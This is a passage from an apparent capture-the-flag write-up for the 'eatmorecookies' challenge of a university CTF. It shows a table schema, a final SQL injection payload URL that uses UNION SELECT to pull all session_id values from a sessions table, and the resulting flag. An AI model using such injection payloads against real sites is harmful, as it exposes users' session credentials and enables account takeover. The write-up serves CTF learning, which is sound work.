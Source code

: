 ```
CREATE TABLE eatmorecookies.cookies (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    flavor varchar(255) NOT NULL,
    name varchar(255) NOT NULL
);
```

Let's fix that:

# Final Payload

```
https://waynestateuniversity-ctf24-eatmorecookies.chals.io/searchcookies?cookies=" UNION SELECT TRUE, session_id, TRUE from sessions;--+"
```

And with this, the first TRUE statement will be left out of the query, then in the cookie flavor, instead of an actual cookie from the cookies table,
we will see the session_id of all users. One of these users has a "fake" session and the flag is in that user's session_id.

![image](https://github.com/Programmer231/WSUCTF2024/assets/51927329/e35ef1bc-893a-45e7-a2f9-bcbae95305b9)

```
{WSUCTF24:S3arching_Thr0ugh_Very_Expr3ssive_DBz}
```
